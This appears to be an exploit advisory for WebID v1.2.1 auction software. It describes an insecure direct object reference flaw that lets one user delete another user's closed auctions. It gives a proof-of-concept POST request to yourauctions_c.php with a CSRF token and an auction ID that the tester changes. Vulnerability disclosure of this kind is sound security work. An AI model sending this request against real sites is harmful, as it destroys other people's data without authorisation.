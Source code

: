 # Exploit Title: Webid v1.2.1 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://sourceforge.net/projects/simpleauction/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Webid
## Version: v1.2.1
## Exploit Description:
## Webid v1.2.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to delete a closed auction that is owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /yourauctions_c.php HTTP/1.1
...

csrftoken=78899377e1baac0dedb6f939e65ffad9&delete%5B%5D=4(CHANGE HERE)&action=update&Submit=Process+selected+auctions
```